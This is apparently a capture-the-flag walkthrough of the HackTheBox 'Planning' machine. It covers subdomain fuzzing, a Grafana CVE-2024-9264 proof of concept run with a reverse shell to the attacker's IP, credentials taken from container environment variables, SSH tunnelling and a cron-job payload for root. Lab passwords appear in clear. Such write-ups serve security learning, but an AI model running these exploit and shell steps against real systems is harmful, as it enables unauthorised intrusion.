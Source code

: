 ```yaml
---
title: Planning
tags:
  - HackTheBox
  - Easy
  - Linux
  - Grafana
  - CVE
  - Docker
  - Tunnelling
  - Cron-Job
date: 2025-05-12T00:00:05Z
---
```

![](Pasted%20image%2020250512164751.png)

> I get the following credentials: `admin:0D5oT70Fq13EvB5r`

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.68 planning.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- planning.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http
|_http-title: Edukate - Online Education Website
```

So I checked its website:

![](Pasted%20image%2020250512164946.png)

There are the following pages:
- `index.php`
- `about.php`
- `course.php`
- `contact.php`
- `detail.php` <- this one is more difficult to find

So I'll enumerate for subdomains with [Ffuf 🐳](/notes/tools/Ffuf.md):
- I had to use a different wordlist: `/usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt`

```shell
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u https://FUZZ.planning.htb/

[redacted]
grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 98ms]
```

So I added it to my known hosts.

![](Pasted%20image%2020250512175737.png)

Grafana version 11.0.0 is discovered. So I logged in with the given credentials:

## Weaponization

I searched for "grafana 11.0.0 cve" and found [CVE-2024-9264a](https://github.com/nollium/CVE-2024-9264a), [this blog](https://zekosec.com/blog/rce-grafana-cve-2024-9264/) and the [PoC of the blog](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit).

## Exploitation

I cloned the repository and executed the script:

```shell
git clone https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit.git

python3 poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.22 --reverse-port 666
```

> Got a shell :D

![](Pasted%20image%2020250512180904.png)

![](Pasted%20image%2020250512181220.png)

## Pivoting

We are inside of a docker container, so we want to pivot to the host machine.

There is an executable in the root called `run.sh`, so I'll check its contents:

![](Pasted%20image%2020250512181404.png)

But it doesn't contain anything useful, so I decided to check the environment variables:

```shell
printenv

[redacted]
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
```

> Got the host credentials :D `enzo:RioTecRANDEntANT!`

### User flag

I am now `enzo` and can get user flag:

![](Pasted%20image%2020250512182628.png)

## Privilege Escalation

Let's find internal active internet connections:

```shell
netstat -ant

Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:33839         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN     
tcp        0      0 10.10.11.68:80          10.10.14.22:36116       ESTABLISHED
tcp        0      0 127.0.0.1:3000          127.0.0.1:32928         TIME_WAIT  
tcp        0      0 127.0.0.1:3000          127.0.0.1:49704         TIME_WAIT  
tcp        0      0 127.0.0.1:40246         127.0.0.1:3000          TIME_WAIT  
tcp        0      0 127.0.0.1:3000          127.0.0.1:34028         TIME_WAIT  
tcp        0      0 127.0.0.1:58498         127.0.0.1:3000          TIME_WAIT  
tcp        0      0 172.17.0.1:60430        172.17.0.2:3000         TIME_WAIT  
tcp        0      0 127.0.0.1:40234         127.0.0.1:3000          TIME_WAIT  
tcp        0      0 127.0.0.1:3000          127.0.0.1:46580         TIME_WAIT  
tcp        0      0 127.0.0.1:3000          127.0.0.1:35248         TIME_WAIT  
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0   1796 10.10.11.68:22          10.10.14.22:47148       ESTABLISHED
```

Checking the port 8000:

```shell
curl -I 127.0.0.1:8000

HTTP/1.1 401 Unauthorized
X-Powered-By: Express
WWW-Authenticate: Basic realm="Restricted Area"
Content-Type: text/html; charset=utf-8
Content-Length: 0
ETag: W/"0-2jmj7l5rSw0yVb/vlWAYkK/YBwk"
Date: Mon, 12 May 2025 16:28:43 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```

So I port forwarded port 8000 to my machine:

```shell
ssh -L 8888:127.0.0.1:8000 enzo@planning.htb
```

Then I visited it and I'm asked for credentials:

![](Pasted%20image%2020250512184127.png)

So I checked back the machine to search for credentials. Looking inside `/opt` I found the following:

![](Pasted%20image%2020250512184216.png)

> Credentials: `root:P4ssw0rdS0pRi0T3c`

![](Pasted%20image%2020250512184544.png)

Crontab is being used. So I can create a copy of the bash console and save it into the `/tmp` directory. To do this I'll create a new one and use the following payload:

```shell
cp /bin/bash /tmp/poc && chmod +x /tmp/poc
```

![](Pasted%20image%2020250512191839.png)

![](Pasted%20image%2020250512191745.png)

### Root flag

![](Pasted%20image%2020250512192121.png)

==Machine pwned!==